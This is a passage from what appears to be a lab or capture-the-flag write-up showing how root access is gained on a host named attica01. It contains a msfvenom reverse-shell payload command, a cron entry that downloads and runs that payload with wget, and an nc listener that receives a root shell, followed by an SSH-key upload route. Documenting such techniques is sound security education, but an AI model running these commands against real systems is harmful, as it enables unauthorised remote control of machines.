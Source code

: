 
    oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.84 LPORT=4444 -f elf -o rev
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 74 bytes
    Final size of elf file: 194 bytes
    Saved as: rev



I'll upload it to attica01, and then host it with Python there:



    root@attica01:~# python3 -m http.server 9999
    Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...



Now in another shell I'll listen on 4444 with `nc`. In the Scheduled
Tasks panel, I'll enter:



    * * * * *  wget http://192.168.1.84:9999/rev; chmod +x rev; ./rev



When the minute rolls, there's a request at the webserver on the VM:



    192.168.1.1 - - [26/Jul/2024 19:16:00] "GET /rev HTTP/1.1" 200 -



Then there's a connection at `nc`:



    root@attica01:~# nc -lnvp 4444                                      
    Listening on 0.0.0.0 4444
    Connection received on 192.168.1.1 48506
    ‍id
    uid=0(root) gid=0(root) groups=0(root)



### Add SSH Key

Much more straight forward than setting a job, under System --\>
Administration there is a bunch of useful menus:

![](/img/image-20240726160358349.png)

On the SSH Access tab, it shows that root can log in over SSH:

![](/img/image-20240726160439135.png)

SSH-Keys has a form to upload a public key:

![](/img/image-20240726160505111.png)
